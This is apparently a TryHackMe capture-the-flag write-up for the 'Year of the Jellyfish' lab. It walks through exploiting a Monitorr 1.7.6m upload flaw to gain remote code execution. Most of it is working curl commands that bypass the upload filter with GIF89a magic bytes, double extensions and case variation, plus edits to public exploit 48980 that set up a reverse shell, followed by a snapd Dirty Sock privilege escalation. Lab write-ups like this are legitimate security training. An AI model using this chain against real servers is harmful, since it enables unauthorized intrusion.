

year of the jellyfish
THM: Year of the Jellyfish
Enumeration
Nmap

By Looking at Subject Alternative Name: We added the following to host file.
Hosts File Additions
Website Certificate

Click on Advanced --→ Then Click on view certificate.
The page confirms our DNS additions.
After Accepting the certificate. We open the default website.

Note: Port 80 also redirects to this HTTPS page.
Port 21 & 22 did not have any CTF specific info.
Lets Enumerate Other Domains.
Alternate Domain Enumeration:
https://dev.robyns-petshop.thm/
https://beta.robyns-petshop.thm/
https://monitorr.robyns-petshop.thm
This Domain is Intresting. It uses a monitoring tool named Monitorr. The version is 1.7.6m
Lets check if if has any vulnerabilities.
Indeed this version is vulnerable.
The First Exploit of Searchsploit results did not work.
Lets download and check the second exploit.
searchsploit -m 48980.py
Exploit Analysis

This is the complete exploit. It uses an upload method to upload a Magic GIF file which has PHP code in it. This will execute a reverse shell to our mentioned IP & Port.
I checked the upload URL and indeed its ready to accept an Image.
Foothold
Lets run the exploit.
python 48980.py https://monitorr.robyns-petshop.thm/ 10.11.72.31 7777

We get certificate verify error. As this python script doesn't handles SSL certificates.
We make the following changes.
import requests
import os
import sys
requests.packages.urllib3.disable_warnings()
AND
<SNIP>
requests.post(url, headers=headers, data=data, verify=False)
<SNIP>
requests.get(url, headers=headers, verify=False)
<SNIP>
We run the exploit again.

It seemed like it worked. But we then check the upload folder as per the script.
/assets/data/usrimg/

As we can see, it didn't work.
Note: I checked the browser for cookies and indeed found a cookie.

From Here we can go 2 Ways.
1) We add the cookie in the exploit and run it.
2) We will manually exploit usinng CURL
Method-1
<SNIP>
requests.post(url, headers=headers, data=data, verify=False, cookie={"isHuman":"1"})
<SNIP>
requests.get(url, headers=headers, verify=False, cookie={"isHuman":"1"})
<SNIP>
Note: There are filters in place for the upload mechanism. This can be found and tackled individually in Method-2.
For now, I will use double extention with case variation for my upload file.
Thus we will change the following in the python script.
First and Second occurence respectively:
she_ll.php ----→ she_ll.gif.pHp
she_ll.php ----→ she_ll.gif.php
Start Netcat Listener and Run the Exploit.
As we can see, our file has been uploaded and its in the name of she_ll.gif.php as per the second instance of the file in the script. This is because the *.gif.pHp becomes *.gif.php once its saved in the server.
Note:I found that the reverse shell will not work if we use any port above 1000. But its working absolutely fine with port 443

Method-2
Using CURL
This method will explain why the changes were made in Method-1.
I will use Curl to see what protections are in place. First we can try and upload a file using the same method in the exploit but direct from Curl:
I get a temporary png file(testfile.png).
curl -k -F "fileToUpload=@./testfile.png" https://monitorr.robyns-petshop.thm/assets/php/upload.php
Above -k tells Curl to ignore the certificate check. We can see my attempt to upload a picture failed. Let’s try adding the cookie we found before:
curl -k -F "fileToUpload=@./testfile.png" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
As we can see, the file was sucessfully uploaded.
Now let's try a php file, like the exploit does:
echo -e $'hello from cybex' > test.php
curl -k -F "fileToUpload=@./test.php" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
However, the file didn't upload because its blocking the php file.
So we can see there is a check to see if the uploaded file is an image, we can try a GIF89a magic byte and double extension to get around this:
echo -e $'\x47\x49\x46\x38\x39\x61\nhello from cybex' > test2.gif.php
curl -k -F "fileToUpload=@./test2.gif.php" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"

Still no good, let’s see if the check is case sensitive:
mv test2.gif.php test2.gif.pHp
curl -k -F "fileToUpload=@./test2.gif.pHp" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/test2.gif.php

Finally, it worked and my text is output. Now we can add PHP code and execute it.
echo -e $'\x47\x49\x46\x38\x39\x61\n<?php echo system("whoami");' > test3.gif.PHP
curl -k -F "fileToUpload=@./test3.gif.PHP" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/test3.gif.php
Thus, we have RCE. (Note: I tested, we can add PHP code to have a reverse shell and it does work)
However, the full command couldn't be given with echo -e command. Thus we need a text editor to change the above PHP code to reverse shell. So that the magic byte (GIF89a) remains fixed.

curl -k -F "fileToUpload=@./test4.gif.PHP" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
curl -k https://monitorr.robyns-petshop.thm/assets/data/usrimg/test4.gif.php
or
Run from website.

Privilege Escalation
Lets check SUID set executibles.

The above file is highlighted even in Linux Exploit Suggester. It uses Dirty-Sock Exploit
We can use searchsploit to find snapd

Out of the two exploits, the 2nd one worked. I created a local HTTP server and served the exploit. Then downloaded it to the target machine.
Now, we run the python script.
As now we can see that the exploit ran successfully. Now, to get root access, we need to switch to the above user with the given credentials. Then use sudo as this user has sudo rights.
Note: We can also SSH using the above credentails.
userflag:

Rootflag:
Thanks!!